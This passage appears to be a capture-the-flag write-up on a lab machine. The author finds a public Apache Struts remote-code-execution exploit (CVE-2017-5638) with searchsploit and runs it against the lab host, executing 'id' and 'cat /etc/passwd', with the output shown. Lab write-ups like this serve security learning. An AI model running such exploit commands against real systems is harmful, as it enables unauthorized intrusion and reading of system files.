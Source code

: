 ```java
```

It looks like we can reference arbitrary Java methods by changing the URL. I played around with this a little but I could not manage to escape the `example` package which is pretty useless.

Afterwards, I used Searchsploit to find Struts vulnerabilities because Struts shows up in the stacktrace and I remembered that there were some issues in the past. I decided that the following result looks promising because it' s RCE, it's written in Python and it's the newest available exploit:

```bash
$ searchsploit x 41570
---------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                  |  Path
								| (/usr/share/exploitdb/)
---------------------------------------------------------------- ----------------------------------------
Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2.5.10 - Remote Code Execu | exploits/linux/webapps/41570.py
---------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

The [exploit](https://www.exploit-db.com/exploits/41570/) worked instantly without modification: 

```bash
$ python apache-struts-cve-2017-5638.py http://10.10.10.64:8080/Monitoring/example id
2018-09-01 00:24:25 [*] CVE: 2017-5638 - Apache Struts2 S2-045
2018-09-01 00:24:25 [*] cmd: id
2018-09-01 00:24:25 
2018-09-01 00:24:33 uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
2018-09-01 00:24:33 
```

This enables issuing arbitrary commands to the server, but only with the permissions of the `tomcat8` user, which is probably not sufficient for reading the user flag. 

Let's see which users exist on the system:

```bash
$ python apache-struts-cve-2017-5638.py http://10.10.10.64/Monitoring/example "cat /etc/passwd"
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
rtkit:x:105:109:RealtimeKit,,,:/proc:/bin/false
```